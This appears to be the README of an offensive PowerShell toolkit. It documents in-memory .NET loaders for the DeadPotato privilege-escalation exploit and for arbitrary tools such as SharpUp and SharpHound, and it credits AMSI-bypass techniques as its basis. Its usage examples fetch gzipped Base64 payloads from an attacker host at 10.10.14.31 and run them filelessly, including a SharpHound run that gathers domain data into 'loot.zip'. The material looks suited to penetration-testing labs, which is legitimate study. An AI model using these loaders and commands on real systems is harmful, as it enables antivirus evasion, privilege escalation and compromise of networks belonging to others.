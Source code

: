 ### Inspiration and code that has been incorporated into these scripts

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b

---

- **Invoke-InMemoryDotNet** – A generalized loader for any .NET assembly with a static `Main(string[] args)` method.
- **Invoke-DeadPotato** – A specific loader for the DeadPotato exploit

## Invoke-DeadPotato

`Invoke-DeadPotato` is a specialized PowerShell loader designed to execute the **DeadPotato** .NET exploit (or any similarly structured binary) directly from memory. It supports embedded or remotely hosted gzipped+Base64 payloads.

### Features

- Loads DeadPotato (or similar tool) from Base64+gzipped payload
- Executes in-memory without touching disk
- Allows command-line arguments (e.g., `-cmd whoami`)
- Captures console output and returns result

### Parameters

| Parameter    | Description                                      |
|-------------|--------------------------------------------------|
| `-Arguments` | Command-line string to pass to DeadPotato        |
| `-UseRemote` | Optional URL to load gzipped+Base64 binary       |

### Examples

#### Run embedded DeadPotato
```powershell
Invoke-DeadPotato -Arguments "-cmd whoami"
```

#### Download and execute
```powershell
Invoke-DeadPotato -UseRemote "http://10.10.14.31/dp.gz.b64" -Arguments "-cmd whoami"
```

### Notes

- The class name must be `DeadPotato.Program` with a public static `Main` method.
- You must insert a valid gzipped Base64-encoded payload into the `$b64` variable or provide a URL to it.
- Output is captured and returned as a string.


## Invoke-InMemoryDotNet (not extensively tested yet)

`Invoke-InMemoryDotNet` is a PowerShell loader that dynamically executes any .NET assembly in memory. It supports embedded payloads or remote retrieval via URL. The assembly must expose a public static `Main(string[] args)` method.

### Features

- Executes gzipped + Base64-encoded .NET assemblies entirely in memory
- Supports embedded payload or remote download via HTTP/S
- Captures and returns all `Console.WriteLine` output
- Generic support for any .NET tool with a `Main` entry point (e.g., SharpUp, SharpHound, Seatbelt)

### Parameters

| Parameter    | Description                                       |
|-------------|---------------------------------------------------|
| `-Arguments` | String of arguments to pass to the Main method    |
| `-UseRemote` | URL pointing to a gzipped+Base64-encoded payload  |
| `-TypeName`  | Optional: class name containing the Main method   |
| `-MethodName`| Optional: method to invoke (default: `Main`)      |

### Examples

#### Run embedded payload
```powershell
Invoke-InMemoryDotNet -Arguments "-f all"
```

#### Download SharpUp and run
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpUp.gz.b64" -Arguments "-f all"
```

#### Execute SharpHound collector
```powershell
Invoke-InMemoryDotNet -UseRemote "http://10.10.14.31/SharpHound.gz.b64" -Arguments "--CollectionMethod All --ZipFileName loot.zip"
```
